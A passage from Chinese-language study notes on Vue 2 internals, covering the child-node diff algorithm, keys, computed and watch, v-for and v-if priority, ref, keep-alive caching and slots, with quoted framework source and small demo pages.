，然后索引向后移动一位 patchVnode(oldStartVnode, newStartVnode, insertedVnodeQueue, newCh, newStartIdx) oldStartVnode = oldCh[++oldStartIdx] newStartVnode = newCh[++newStartIdx] } else if (sameVnode(oldEndVnode, newEndVnode)) { // 两个结尾相同，递归 patchVnode ，然后索引向前移动一位 patchVnode(oldEndVnode, newEndVnode, insertedVnodeQueue, newCh, newEndIdx) oldEndVnode = oldCh[--oldEndIdx] newEndVnode = newCh[--newEndIdx] } else if (sameVnode(oldStartVnode, newEndVnode)) { // Vnode moved right // 老的开始和新的结束一样，递归 patchVnode，然后将老的开始移动到结尾 patchVnode(oldStartVnode, newEndVnode, insertedVnodeQueue, newCh, newEndIdx) canMove && nodeOps.insertBefore(parentElm, oldStartVnode.elm, nodeOps.nextSibling(oldEndVnode.elm)) oldStartVnode = oldCh[++oldStartIdx] newEndVnode = newCh[--newEndIdx] } else if (sameVnode(oldEndVnode, newStartVnode)) { // Vnode moved left // 老的结束和新的开始一样，递归 patchVnode，然后将老的结束移动到开头 patchVnode(oldEndVnode, newStartVnode, insertedVnodeQueue, newCh, newStartIdx) canMove && nodeOps.insertBefore(parentElm, oldEndVnode.elm, oldStartVnode.elm) oldEndVnode = oldCh[--oldEndIdx] newStartVnode = newCh[++newStartIdx] } else { // 首尾没有相同，老老实实遍历查找 if (isUndef(oldKeyToIdx)) oldKeyToIdx = createKeyToOldIdx(oldCh, oldStartIdx, oldEndIdx) // 老数组索引 idxInOld = isDef(newStartVnode.key) ? oldKeyToIdx[newStartVnode.key] : findIdxInOld(newStartVnode, oldCh, oldStartIdx, oldEndIdx) if (isUndef(idxInOld)) { // New element // 不存在就创建 createElm(newStartVnode, insertedVnodeQueue, parentElm, oldStartVnode.elm, false, newCh, newStartIdx) } else { vnodeToMove = oldCh[idxInOld] // 相同节点更新 if (sameVnode(vnodeToMove, newStartVnode)) { patchVnode(vnodeToMove, newStartVnode, insertedVnodeQueue, newCh, newStartIdx) oldCh[idxInOld] = undefined canMove && nodeOps.insertBefore(parentElm, vnodeToMove.elm, oldStartVnode.elm) } else { // 不同节点替换 // same key but different element. treat as new element createElm(newStartVnode, insertedVnodeQueue, parentElm, oldStartVnode.elm, false, newCh, newStartIdx) } } newStartVnode = newCh[++newStartIdx] } } // 循环结束之后清理工作 if (oldStartIdx > oldEndIdx) { // 老数组先结束 // 新数组还有剩余，批量创建 refElm = isUndef(newCh[newEndIdx + 1]) ? null : newCh[newEndIdx + 1].elm addVnodes(parentElm, refElm, newCh, newStartIdx, newEndIdx, insertedVnodeQueue) } else if (newStartIdx > newEndIdx) { // 新数组先结束 // 老数组还有剩余，批量删除 removeVnodes(oldCh, oldStartIdx, oldEndIdx) } }- 子节点更新的时候，先判断 4 种情况：
- 两个开头相同，递归 patchVnode ，然后索引向后移动一位
- 两个结尾相同，递归 patchVnode ，然后索引向前移动一位
- 老的开始和新的结束一样，递归 patchVnode，然后将老的开始移动到结尾
- 老的结束和新的开始一样，递归 patchVnode，然后将老的结束移动到开头
- 如果上面 4 种情况都不符合，就使用 新节点的开始节点的 key 去旧节点中找到对应的 key 相同的节点。
- 如果没找到旧就创建新的，然后新的开始向后移动一位
- 如果找到了是相同节点更新，更新后将对应的找到的老的节点移动到开头；找到后是不同节点就创建新的（key 相同但是节点不同，就和新建一样），然后新的开始向后移动一位
- 最后循环结束，如果 新数组还有剩余，批量创建，老数组还有剩余，批量删除
- 子节点更新的时候，先判断 4 种情况：
key 的作用
<div id="demo">
<p v-for="item in items" :key="item">{{item}}</p>
</div>
<script src="./vue.js"></script>
<script>
const app = new Vue({
el: '#domo',
data: {items: ['A', 'B', 'C', 'D', 'E']},
mounted () {
setTimeout(() => {
this.items.splice(2, 0, 'F');
}, 2000)
}
})
</script>
上面的例子是在 'c' 的前面插入一个 'f'，如果加上了 key ，则在 patch 过程中，会如下所示：
// 第 1 次循环 A一样
A B C D E
A B F C D E
// 第 2 次循环 B 一样
B C D E
B F C D E
// 第 3 次循环 E 一样
C D E
F C D E
// 第 4 次循环 D 一样
C D
F C D
// 第 5 次循环 C 一样
C
F C
// old 节点循环完毕，发现新的节点只剩一个 F，创建 F 插入到 C 前面
如果使用了 key ，可以发现 updateChildren 方法在比较子节点的时候，因为有 key，所以在头和尾碰到相同的节点，就去递归 patchVnode 操作，然后发现它们没有变化就什么都不做。直到最后新增 F 然后插入。也就是 5 次更新操作（因为没有变化，这 5 次操作什么也没做），然后 1 次创建操作，1 次插入操作。
下面是没有 key 的情况。
// 没有 key 则是 undefined，所以每次 key 的比较都是一样的
// 第 1 次循环 A一样
A B C D E
A B F C D E
// 第 2 次循环 B 一样
B C D E
B F C D E
// 第 3 次循环认为 C 和 F 是同一节点，把 C 变成 F
C D E
F C D E
// 第 4 次循环认为 D 和 C 是同一节点，把 D 变成 C
D E
C D E
// 第 5 次循环认为 E 和 D 是同一节点，把 E 变成 D
E
D E
// old 节点循环完毕，发现新的节点只剩一个 E，创建 E 插入到最后
如果没有用 key，可以发现每次比较都认为所有节点都是同一个节点，直接做 patchVnode 操作。因此做了 5 次更新操作（前 2 次什么也没做，后 3 次更新了文本节点），然后 1 次创建操作，1 次插入操作。
- 有 key。5 次更新操作（因为没有变化，这 5 次操作什么也没做），然后 1 次创建操作，1 次插入操作
- 没 key。5 次更新操作（前 2 次什么也没做，后 3 次更新了文本节点），然后 1 次创建操作，1 次插入操作
对比可以发现，有 key 的时候比没 key 的时候，少了 3 次实际更新节点操作，因此节省了 dom 操作。这里的例子只是文本节点，更新操作不会有很大的开销，试想如果是复杂的 dom 结构，如果没有了 key，那么多出来的 dom 操作带来的性能消耗将是巨大的。
总结：
- key 的作用主要是为例高效的更新虚拟 dom，原理是在 patch 过程中精准判断两个节点是否是同一个，从而避免频繁更新不同的元素，使整个 patch 过程中更加高效，减少 dom 操作，提高性能。
- 如果不设置 key 还可能在列表更新时引发一些隐蔽的 bug。
- vue 在使用相同标签名元素的过渡切换时，也会使用 key 属性，目的是为了让 vue 可以区分它们，否则 vue 只会替换其内部属性而不会触发过渡效果。
为什么不要用数组 index 作为 key
<body>
<div id="app">
<ul>
<li v-for="(value, index) in arr" :key="index">
<test />
</li>
</ul>
<button @click="handleDelete">delete</button>
</div>
</div>
</body>
<script>
new Vue({
name: "App",
el: '#app',
data() {
return {
arr: [1, 2, 3]
};
},
methods: {
handleDelete() {
this.arr.splice(0, 1);
}
},
components: {
test: {
template: "<li>{{Math.random()}}</li>"
}
}
})
</script>
判断 sameNode 的时候，只会判断 key、 tag、是否有 data 的存在（不关心内部具体的值）、是否是注释节点、是否是相同的input type，来判断是否可以复用这个节点。
这个例子中删除第一个节点之后的 vnode，第 2 个节点和第 3 个节点的 key 发生了变化，变成了 0 和 1。
- 老节点text: 1 和 新节点的 text: 2 比较，key 一样，认为是同一个节点，复用。
- 老节点text: 2 和 新节点的 text: 3 比较，key 一样，认为是同一个节点，复用。
- 然后发现新节点里少了一个，直接把多出来的老节点 text: 3 丢掉。
于是 1 2 3 ，删除 1 ，却变成了 1 2，产生了这样的 bug。
从源码角度看这个 bug 出现的原因是因为比较 vnode 和 oldvnode 的时候，比较的节点不是原生节点的 vnode，而是组件的占位符 vnode，因为 key 相同，认为是相同节点，因此直接调用 patchVnode，而组件 vnode 上没有 children，也没有 text 属性，因此 patchVnode 的时候认为不需要更新任何东西，所以就复用了。
computed 和 watch
computed
-
初始化的时候会调用 initState （src\core\instance\state.js），其中会调用 initComputed
-
initComputed 中遍历 vm 组件实例的配置对象中的 computed 配置项（vm.$options.computed），为每一个 computed key 生成一个 watcher，这些 computed watcher 会存入 vm._computedWatchers 数组中。接着代理 computed 中的 key 到 vm 上，这样就可以通过 this 直接访问到 computed 中的值。new 一个 watcher 的时候第二个参数是 computed key 对应的那个函数，第四个参数是对象 {lazy: true}。
-
因为设置了 {lazy: true} 惰性求值，所以 new watcher 的时候不会立即触发 computed 的求值函数去计算值。同时 lazy 值在 watcher 初始化的时候赋值给了 this.dirty，this.dirty 表示缓存是否可用，如果为 true，表示缓存脏了，需要重新计算，否则不用。this.dirty 默认为 false。dirty 是真正的控制缓存的关键，而 lazy 只是起到一个开启的作用
-
initComputed 中 defineComputed 除了做代理还做了其他事情。主要做三件事：1. 调用 createComputedGetter 生成一个 getter 函数。 2. 如果 set 为空就设置一个默认 set 函数 3. 把 computed key 代理到 vm 上
-
createComputedGetter 生成的 getter 函数，从 vm._computedWatchers 数组获取到 key 对应的 watcher，然后去判断 watcher.dirty，如果为 true 就调用 watcher.evaluate() 重新计算值。然后调用 watcher.depend() 收集依赖。然后返回值。只有两种情况 dirty 为 true，首次初始化的时候 dirty 是 true，所以会计算值，计算完后 dirty 变成 false，第二种情况就是依赖的值改变了，dirty 会变为 true，会重新计算值。
上面是主要源码的分析下面看一个流程
{
data() {
return {
a: 1,
b: 2
}
},
computed: {
c() {
return a + b
}
}
}
- 首先页面里会使用 c ，所以会触发 createComputedGetter 生成的 getter 函数，然后判断 watcher.dirty，首次执行 watcher.evaluate
- watcher.evaluate 执行 this.get ，this.get 里会执行 pushTarget(this) 把当前的 computed watcher push 到stack 里面去，并设置为 Dep.target
- 然后运行 this.getter.call 也就是运行 computed 对应的函数 return a + b，这时候就会去获取 a 和 b 的值，触发 a 和 b 的 getter ，它们自己的 dep.depend 会去依赖收集，收集到当前 computed watucer
- 依赖收集完毕之后执行 popTarget()，把当前 computed watcher 从栈清除，返回计算后的 c 值，然后 this.dirty = false
- watcher.evaluate() 执行完毕，判断 Dep.target，如果存在，就对 computed watcher 里的 dep 进行依赖收集
- 此后 a 和 b 的都收集了 computed watcher 的依赖，如果 a 和 b 发生改变，都会触发 watcher.update 然后将 this.dirty 设置为 true，这样下一次渲染时用到 c 时就会重新计算
watch
- 首先调用 initWatch，其中会遍历 vm.$options.watch 对象，对每一个 key 调用 createWatcher
- createWatcher 里调用 Vue.prototype.$watch。$watch 里创建 watcher 实例，传递参数 {user: true}。如果设置了 immediate，则立即执行一次 cb，最后返回 unwatch，unwatch 就是调用 watch.teardown 去移除这个 watcher 和对应的所有依赖
- 当 new watcher 的时候，第二个参数传的是 vm.$options.watch 中对应的 key 值，watcher 初始化的时候会判断，如果是一个字符串 key ，则为其生成一个函数作为 this.getter，比如 watch 的是 data 里的 a 值，那么生成的 this.getter 就如下：
this.getter = function() { return this.a }
接着 watcher 初始化就会调用 this.get，然后设置当前 Dep.target 为当前 user watcher，然后调用 this.getter，这时候 a 就会收集到 user watcher 为依赖 4. 之后只要 a 变化了，都会触发自己的 setter，然后去触发 user.watcher 的 update
v-for 和 v-if
<!DOCTYPE html> <html>
<body>
<div id="demo">
<p v-for="child in children" v-if="isFolder">{{child.title}}</p>
<!-- <template v-if="isFolder">
<p v-for="child in children">{{child.title}}</p>
</template> -->
</div>
<script src="./vue.js"></script>
<script>
const app = new Vue({
el: '#demo',
data() {
return {
children: [
{title:'foo'},
{title:'bar'},
]
}
},
computed: {
isFolder() {
return this.children && this.children.length > 0
}
},
});
console.log(app.$options.render);
</script>
</body>
</html>
v-if 在 v-for 同一层时的 render 函数：
(function anonymous() {
with (this) {
return _c('div', {
attrs: {
"id": "demo"
}
}, _l((children), function(child) {
return (isFolder) ? _c('p', [_v(_s(child.title))]) : _e()
}), 0)
}
}
)
v-if 在 v-for 外层时的 render 函数：
(function anonymous() {
with (this) {
return _c('div', {
attrs: {
"id": "demo"
}
}, [(isFolder) ? _l((children), function(child) {
return _c('p', [_v(_s(child.title))])
}) : _e()], 2)
}
}
)
通过生成的 render 函数可以发现，v-for 在解析的时候优先级比 v-if 要高。如果同时出现，每次渲染都会先执行循环再判断条件，无论如何循环都不可避免，浪费了性能 。要避免出现这种情况，则在外层嵌套 template，在这一层进行 v-if 判断，然后在内部进行v-for 循环。如果条件出现在循环内部，可通过计算属性提前过滤掉那些不需要显示的项。
源码中的依据是 genElement src\compiler\codegen\index.js
export function genElement (el: ASTElement, state: CodegenState): string {
if (el.parent) {
el.pre = el.pre || el.parent.pre
}
if (el.staticRoot && !el.staticProcessed) {
return genStatic(el, state)
} else if (el.once && !el.onceProcessed) {
return genOnce(el, state)
} else if (el.for && !el.forProcessed) {
return genFor(el, state)
} else if (el.if && !el.ifProcessed) {
return genIf(el, state)
} else if (el.tag === 'template' && !el.slotTarget && !state.pre) {
return genChildren(el, state) || 'void 0'
} else if (el.tag === 'slot') {
return genSlot(el, state)
} else {
// component or element
let code
if (el.component) {
code = genComponent(el.component, el, state)
} else {
let data
if (!el.plain || (el.pre && state.maybeComponent(el))) {
data = genData(el, state)
}
const children = el.inlineTemplate ? null : genChildren(el, state, true)
code = `_c('${el.tag}'${
data ? `,${data}` : '' // data
}${
children ? `,${children}` : '' // children
})`
}
// module transforms
for (let i = 0; i < state.transforms.length; i++) {
code = state.transforms[i](el, code)
}
return code
}
}
可以看到先判断 el.for 调用 genFor 然后再判断 el.if 调用 genIf
data
组件的 data 为什么必须设置成一个函数？而根组件却没有这个限制？
<!DOCTYPE html>
<html>
<body>
<div id="demo">
<comp></comp>
<comp></comp>
</div>
<script src="./vue.js"></script>
<script>
Vue.component('comp', {
template:'<div @click="counter++">{{counter}}</div>',
data: {counter: 0}
})
const app = new Vue({
el: '#demo',
});
</script>
</body>
</html>
上面的例子运行后会报错：
vue.js:634 [Vue warn]: The "data" option should be a function that returns a per-instance value in component definitions.
Vue 组件可能存在多个实例，如果使用对象形式定义 data，则会导致它们共用一个 data 对象，那么状态变更将会影响所有组件实例，这是不合理的；采用函数形式定义，在 initData 时会将其作为工厂函数返回全新 data 对象，有效规避多实例之间状态污染问题。而在Vue 根实例创建过程中则不存在该限制，也是因为根实例只能有一个，不需要担心这种情况。
ref
ref 被用来给元素或子组件注册引用信息。引用信息将会注册在父组件的 $refs 对象上。如果在普通的 DOM 元素上使用，引用指向的就是 DOM 元素；如果用在子组件上，引用就指向组件实例：
<!-- `vm.$refs.p` will be the DOM node -->
<p ref="p">hello</p>
<!-- `vm.$refs.child` will be the child component instance -->
<child-component ref="child"></child-component>
当 v-for 用于元素或组件的时候，引用信息将是包含 DOM 节点或组件实例的数组。
关于 ref 注册时间的重要说明：因为 ref 本身是作为渲染结果被创建的，在初始渲染的时候你不能访问它们 - 它们还不存在！$refs 也不是响应式的，因此你不应该试图用它在模板中做数据绑定。
源码
-
_init 初始化的时候会执行 initLifecycle() 函数，该函数会初始化当前 Vue 实例的 $refs 为一个空对象。
-
挂载的时候首先会将模板解析成一个 AST 对象，此时会执行 processElement() 函数，该函数又会执行 processRef 去解析 ref 属性，如下:
src\compiler\parser\index.js
/**
* 处理元素上的 ref 属性
* el.ref = refVal
* el.refInFor = boolean
* @param {*} el
*/
function processRef (el) {
const ref = getBindingAttr(el, 'ref')
if (ref) {
el.ref = ref
// 判断包含 ref 属性的元素是否包含在具有 v-for 指令的元素内或后代元素中
// 如果是，则 ref 指向的则是包含 DOM 节点或组件实例的数组
el.refInFor = checkInFor(el)
}
}
function checkInFor (el: ASTElement): boolean {
let parent = el
while (parent) {
if (parent.for !== undefined) {
return true
}
parent = parent.parent
}
return false
}
- 最后将 AST 生成 render 函数的时候会执行 genData() 函数 genData() 会判断是否有 ref 和 refInFor 属性，如果有则保存到 data 属性上 （这个 data 属性就是 _c 函数的第二个参数）
src\compiler\codegen\index.js
export function genData (el: ASTElement, state: CodegenState): string {
// ref
if (el.ref) {
data += `ref:${el.ref},`
}
if (el.refInFor) {
data += `refInFor:true,`
}
}
- 之后 patch 过程中第一次渲染的时候，会执行 ref 模块的 create 钩子函数，组件更新的时候会调用 update 钩子，销毁的时候会调用 destroy 钩子，其内部都是调用 registerRef 方法去注册 ref 应用
src\core\vdom\modules\ref.js
/* @flow */
import { remove, isDef } from 'shared/util'
export default {
create (_: any, vnode: VNodeWithData) {
registerRef(vnode)
},
update (oldVnode: VNodeWithData, vnode: VNodeWithData) {
if (oldVnode.data.ref !== vnode.data.ref) {
registerRef(oldVnode, true)
registerRef(vnode)
}
},
destroy (vnode: VNodeWithData) {
registerRef(vnode, true)
}
}
export function registerRef (vnode: VNodeWithData, isRemoval: ?boolean) {
const key = vnode.data.ref
if (!isDef(key)) return
const vm = vnode.context
const ref = vnode.componentInstance || vnode.elm // 如果 vnode 是组件，ref 取 componentInstance，否则就是 DOM 元素
const refs = vm.$refs
if (isRemoval) {
if (Array.isArray(refs[key])) {
remove(refs[key], ref)
} else if (refs[key] === ref) {
refs[key] = undefined
}
} else {
if (vnode.data.refInFor) { // 如果 ref 的元素有 v-for，则将其定义成一个数组
if (!Array.isArray(refs[key])) {
refs[key] = [ref]
} else if (refs[key].indexOf(ref) < 0) {
// $flow-disable-line
refs[key].push(ref)
}
} else {
refs[key] = ref
}
// ref 注册的元素会放在 vm.$refs 这个对象上
}
}
keep-alive
keep-alive 是一个抽象组件：它自身不会渲染一个 DOM 元素，也不会出现在父组件链中；使用 keep-alive 包裹动态组件时，会缓存不活动的组件实例，而不是销毁它们。
用户在某个列表页面选择筛选条件过滤出一份数据列表，由列表页面进入数据详情页面，再返回该列表页面，我们希望：列表页面可以保留用户的筛选（或选中）状态。keep-alive 就是用来解决这种场景。当然 keep-alive 不仅仅是能够保存页面/组件的状态这么简单，它还可以避免组件反复创建和渲染，有效提升系统性能。 总的来说，keep-alive 用于保存组件的渲染状态。
源码分析
keep-alive.js src/core/components/keep-alive.js
/* @flow */
import { isRegExp, remove } from 'shared/util'
import { getFirstComponentChild } from 'core/vdom/helpers/index'
type VNodeCache = { [key: string]: ?VNode };
function getComponentName (opts: ?VNodeComponentOptions): ?string {
return opts && (opts.Ctor.options.name || opts.tag)
}
function matches (pattern: string | RegExp | Array<string>, name: string): boolean {
if (Array.isArray(pattern)) {
return pattern.indexOf(name) > -1
} else if (typeof pattern === 'string') {
return pattern.split(',').indexOf(name) > -1
} else if (isRegExp(pattern)) {
return pattern.test(name)
}
/* istanbul ignore next */
return false
}
function pruneCache (keepAliveInstance: any, filter: Function) {
const { cache, keys, _vnode } = keepAliveInstance
for (const key in cache) {
const cachedNode: ?VNode = cache[key]
if (cachedNode) {
const name: ?string = getComponentName(cachedNode.componentOptions)
if (name && !filter(name)) {
pruneCacheEntry(cache, key, keys, _vnode)
}
}
}
}
function pruneCacheEntry (
cache: VNodeCache,
key: string,
keys: Array<string>,
current?: VNode
) {
const cached = cache[key]
if (cached && (!current || cached.tag !== current.tag)) {
// 删除缓存 VNode 执行对应组件实例的 destory 钩子函数。
cached.componentInstance.$destroy()
}
cache[key] = null
remove(keys, key)
}
const patternTypes: Array<Function> = [String, RegExp, Array]
export default {
name: 'keep-alive',
abstract: true, // 判断当前组件虚拟 dom 是否渲染成真实 dom 的关键
props: {
include: patternTypes, // 缓存白名单
exclude: patternTypes, // 缓存黑名单
max: [String, Number] // 缓存的组件实例数量上限
},
created () {
this.cache = Object.create(null) // 缓存虚拟 dom
this.keys = [] // 缓存的虚拟 dom 的 key 集合
},
destroyed () {
for (const key in this.cache) { // 删除所有的缓存
pruneCacheEntry(this.cache, key, this.keys)
}
},
mounted () {
// 实时监听黑白名单的变动
this.$watch('include', val => {
pruneCache(this, name => matches(val, name))
})
this.$watch('exclude', val => {
pruneCache(this, name => !matches(val, name))
})
},
render () {
// 通过 $slots 获取 keep-alive 包裹着的第一个子组件对象及其组件名
const slot = this.$slots.default
const vnode: VNode = getFirstComponentChild(slot)
const componentOptions: ?VNodeComponentOptions = vnode && vnode.componentOptions
if (componentOptions) {
// check pattern
const name: ?string = getComponentName(componentOptions)
const { include, exclude } = this
if (
// not included
(include && (!name || !matches(include, name))) ||
// excluded
(exclude && name && matches(exclude, name))
) {
// 根据设定的黑白名单（如果有）进行条件匹配，决定是否缓存
// 这里的条件判断的是不匹配的情况，直接返回当前子组件的 vnode
return vnode
}
const { cache, keys } = this
const key: ?string = vnode.key == null
// same constructor may get registered as different local components
// so cid alone is not enough (#3269)
? componentOptions.Ctor.cid + (componentOptions.tag ? `::${componentOptions.tag}` : '')
: vnode.key
// 如果 vnode 有 key ，直接使用 vnode.key，否则根据组件 cid 和 tag 生成缓存 key
// 在缓存对象中查找是否已缓存过该组件 vnode。如果存在，直接取出缓存值并更新该 key 在 this.keys 中的位置（更新 key 的位置是实现 LRU 置换策略的关键）
if (cache[key]) {
vnode.componentInstance = cache[key].componentInstance
// make current key freshest
remove(keys, key)
keys.push(key)
} else {
// 在 this.cache 对象中存储该组件 vnode 并保存 key 值，之后检查缓存的 vnode 数量是否超过 max 的设置值，超过则根据 LRU 置换策略删除最近最久未使用的 vnode（即是下标为 0 的那个 key）。
cache[key] = vnode
keys.push(key)
// prune oldest entry
if (this.max && keys.length > parseInt(this.max)) {
pruneCacheEntry(cache, keys[0], keys, this._vnode)
}
}
// 这一步很重要，将该组件 vnode 的 keepAlive 属性值设置为 true
vnode.data.keepAlive = true
}
return vnode || (slot && slot[0])
}
}
主要看这个组件最后的导出。keep-alive 在它生命周期内定义了三个钩子函数：
- created 初始化两个对象分别缓存 vnode 和 vnode 对应的 key 集合
- destroyed 删除 this.cache 中缓存的 vnode 。这里不是简单地将 this.cache 置为 null，而是遍历调用 pruneCacheEntry 函数删除。因为需要调用 vnode.componentInstance.$destroy() 执行组件实例的 destroy 流程（销毁一个实例。清理它与其它实例的连接，解绑它的全部指令及事件监听器。）
- mounted 在 mounted 中对 include 和 exclude 参数进行监听，然后实时地更新（删除）this.cache 对象数据。pruneCache 函数的核心也是去调用pruneCacheEntry。
- render
- 通过 $slots 获取 keep-alive 包裹着的第一个子组件对象及其组件名
- 根据设定的黑白名单（如果有）进行条件匹配，决定是否缓存。如果不需要缓存直接返回 vnode
- 如果 vnode 有 key ，直接使用 vnode.key，否则根据组件 cid 和 tag 生成缓存 key。在缓存对象中查找是否已缓存过该组件 vnode。如果存在，直接取出缓存值并更新该 key 在 this.keys 中的位置（更新 key 的位置是实现 LRU 置换策略的关键）
- 如果缓存中不存在，在 this.cache 对象中存储该组件 vnode 并保存 key 值，之后检查缓存的 vnode 数量是否超过 max 的设置值，超过则根据 LRU 置换策略删除最近最久未使用的 vnode（即是下标为 0 的那个 key）。
- 最后一步很重要，将该组件 vnode 的 keepAlive 属性值设置为 true
关键问题
- keep-alive 不会生成真正的DOM节点，这是怎么做到的？
src/core/instance/lifecycle.js
export function initLifecycle (vm: Component) {
const options = vm.$options
// 找到第一个非abstract的父组件实例
let parent = options.parent
if (parent && !options.abstract) {
while (parent.$options.abstract && parent.$parent) {
parent = parent.$parent
}
parent.$children.push(vm)
}
vm.$parent = parent
// ...
}
Vue 在初始化生命周期的时候，为组件实例建立父子关系会根据 abstract 属性决定是否忽略某个组件。在 keep-alive 中，设置了 abstract: true，那 Vue 就会跳过该组件实例。
最后构建的组件树中就不会包含 keep-alive 组件，那么由组件树渲染成的 DOM 树自然也不会有 keep-alive 相关的节点了。
- keep-alive 包裹的组件是如何使用缓存的？
看这样一个例子：
let A = {
template: '<div class="a">' +
'<p>A Comp</p>' +
'</div>',
name: 'A'
}
let B = {
template: '<div class="b">' +
'<p>B Comp</p>' +
'</div>',
name: 'B'
}
let vm = new Vue({
el: '#app',
template: '<div>' +
'<keep-alive>' +
'<component :is="currentComp">' +
'</component>' +
'</keep-alive>' +
'<button @click="change">switch</button>' +
'</div>',
data: {
currentComp: 'A'
},
methods: {
change() {
this.currentComp = this.currentComp === 'A' ? 'B' : 'A'
}
},
components: {
A,
B
}
})
-
第一次渲染的时候，keep-alive 标签走正常的 init 的钩子函数生成实例，然后走 $mount 流程， keep-alive 标签生成的 vm 实例有 $slots 属性，vm.$slots.default 就是其内部的 A 组件。keep-alive 组件自己是没有 dom 结构的，所以走到 _render 生成 vnode 的时候，调用的 render 是 keep-alive 的 render 方法。
-
keep-alive 的 render 方法会判断如果有缓存则返回缓存中的被包裹的组件的 vnode，如果是第一次渲染，则通过 vm.$slots.default 拿到被 keep-alive 包裹的组件 vnode 后缓存在 keep-alive 组件实例中，并设置 vnode.data.keepAlive = true 然后返回 vnode。
-
_render 之后就是 patch 流程将组件 A 渲染出来。
-
点击按钮切换到 B 组件也是第一次渲染 B ，和 A 走同样的逻辑被缓存起来。这时候 keep-alive 组件实例的 cache 里就缓存了两个组件 A 和 B 的 vnode。
-
再次切换回 A 组件的时候，patch 流程又会走到 init 组件钩子函数，这时候就判断 vnode.data.keepAlive 了，因为是 keepAlive 为 true，所以不会新实例化 A 组件，而是通过缓存的 A 的 vnode 获取到对应的 dom 直接插入页面中。
总结
keep-alive 组件是一个抽象组件，它的实现通过自定义 render 函数并且利用了插槽，将它包裹的组件的 vnode 缓存起来。且在 patch 过程中对于已缓存的组件不会执行 mounted，所以不会有一般的组件的生命周期函数但是又提供了 activated 和 deactivated 钩子函数。patch 过程中通过 keep-alive 的 cache 属性获取到之前缓存的组件 vnode 然后拿到 elm 属性，也就是原生 dom 节点，然后直接插入页面中。
keep-alive 也是个组件，它没有 dom 模板，而是实现了 render 方法用来缓存它的插槽内容，它会通过vm.$slots.default 拿到它包裹的子组件的 vnode 然后缓存在自己的 cache 数组中，然后返回这个子组件 vnode 渲染。等到第二次渲染的时候就直接会从 keep-alive 组件的 cache 数组里得到子组件的 vnode.elm 属性，也就是子组件的 dom 节点，然后直接插入页面对应位置。这时候就不再走 mounted 了，只会触发 activated 和 deactivated 钩子函数
slot
普通插槽
<body>
<div id="app">
<test>
<p>slot content</p>
</test>
</div>
</div>
</body>
<script src="./vue.js"></script>
<script>
new Vue({
name: "App",
el: '#app',
components: {
test: {
template: "<div><slot></slot></div>"
}
}
})
</script>
- 在 Vue.prototype._render 里打断点，查看父组件生成的 render 函数和用 render 函数生成的 vnode。
(function anonymous() {
with (this) {
return _c('div', {
attrs: {
"id": "app"
}
}, [_c('test', [_c('p', [_v("slot content")])])], 1)
}
})
生成的 vnode 是这样的：
{
tag: 'div',
children: [
{
tag: 'vue-component-1-test',
componentOptions: {
Ctor: f(),
tag: "test",
children: [
{
tag: 'p',
children: [
{
text: "slot content"
}
]
}
]
}
}
]
}
- 接下来父组件会走 $mount 流程，将 _render 生成的 vnode 传递给 _update 然后走 patch 流程。patch 流程中 发现 vue-component-1-test 是一个组件，于是调用它的 componentOptions 中的子类构造函数 Ctor 对子组件进行实例化。子组件实例化会调用 _init 去初始化组件，其中会走到 initInternalComponent 方法。
function initInternalComponent (vm, options) {
var opts = vm.$options = Object.create(vm.constructor.options);
// doing this because it's faster than dynamic enumeration.
var parentVnode = options._parentVnode;
opts.parent = options.parent;
opts._parentVnode = parentVnode;
var vnodeComponentOptions = parentVnode.componentOptions;
opts.propsData = vnodeComponentOptions.propsData;
opts._parentListeners = vnodeComponentOptions.listeners;
opts._renderChildren = vnodeComponentOptions.children;
opts._componentTag = vnodeComponentOptions.tag;
if (options.render) {
opts.render = options.render;
opts.staticRenderFns = options.staticRenderFns;
}
}
其中 opts._renderChildren = vnodeComponentOptions.children; 将子组件的占位符 vnode 的 componentOptions 属性中的 children 设置到子组件对象 vm.$options._renderChildren 上。
// vm.$options._renderChildren
[
{
tag: 'p',
children: [
{
text: "slot content"
}
]
}
]
- 子组件初始化接下来走到 initRender 方法，会将刚才的 vm.$options._renderChildren 加入到子组件 vm.$slots 中的 default 属性中，因为它是普通插槽，没有起名字，所以 default。default 属性是一个数组。
//vm.$slots
{
default: [
{
tag: 'p',
children: [
{
text: "slot content"
}
]
}
]
}
- 然后子组件实例化结束，开始走 $mount 流程，先根据 render 方法生成子组件的 vnode，然后再去 patch。
下面是子组件的 render 方法：
(function anonymous() {
with (this) {
return _c('div', [_t("default")], 2)
}
})
可以看到插槽的 vnode 是用 _t 函数生成的，_t 是 renderSlot 函数。renderSlot 拿到 $slots.default 返回，也就是插槽对应的节点。
于是 render 函数就变成下面这样：
(function anonymous() {
with (this) {
return _c('div', [{
tag: 'p',
children: [
{
text: "slot content"
}
]
}], 2)
}
})
可以看到插槽对应的 vnode 已经插入到了 render 函数中 _c 的第二个参数中，等到之后调用 _createElement 作为 children 传入，然后去生成 vnode。之后的流程就是生成 vnode 和 patch 了，和 slot 无关了。
具名插槽和作用域插槽
<body>
<div id="app">
<test>
<template v-slot:test="slotData">
<p>test content {{slotData.testData}}</p>
</template>
</test>
</div>
</div>
</body>
<script src="./vue.js"></script>
<script>
new Vue({
name: "App",
el: '#app',
components: {
test: {
template: "<div><slot name='test' :testData='count' ></slot></div>",
data () {
return {
count: 1
}
}
}
}
})
</script>
- 父组件 render 函数：
(function anonymous() {
with (this) {
return _c('div', {
attrs: {
"id": "app"
}
}, [_c('test', {
scopedSlots: _u([{
key: "test",
fn: function(slotData) {
return [_c('p', [_v("test content " + _s(slotData.testData))])]
}
}])
})], 1)
}
}
)
其中 _u 就是 resolveScopedSlots 方法，用于将子组件占位符 vnode 的 scopedSlots 参数转换成对象的形式。
[
{
key: 'test',
fn: function(slotData) {
return [_c('p', [_v("test content " + _s(slotData.testData))])]
}
}
]
// 转换为
{
test: function(slotData) {
return [_c('p', [_v("test content " + _s(slotData.testData))])]
}
// 可能还有其他的具名插槽，或者 default 插槽
}
转换成对象形式后 scopedSlots 对象将作为子组件占位符 vnode 的 data 属性。
生成的 vnode：
{
tag: 'div',
children: [
{
tag: "vue-component-1-test",
componentOptions: {
Ctor: f(),
tag: "test"
}，
data：{
scopedSlots: {
test: function(slotData) {
return [_c('p', [_v("test content " + _s(slotData.testData))])]
}
}
}
}
]
}
- 父组件走 $mount 流程时 patch 的时候会走子组件的初始化流程，然后子组件初始化。然后走到子组件的 $mount 流程。
在 updateComponent 调用 _render 时，调用子组件的 render 方法之前先会去调用 normalizeScopedSlots 将 _parentVnode （子组件占位符 vnode） 上的 data.scopedSlots 标准化，然后加入到子组件实例的 vm.$scopedSlots 上，以供之后 render 函数调用的时候使用。
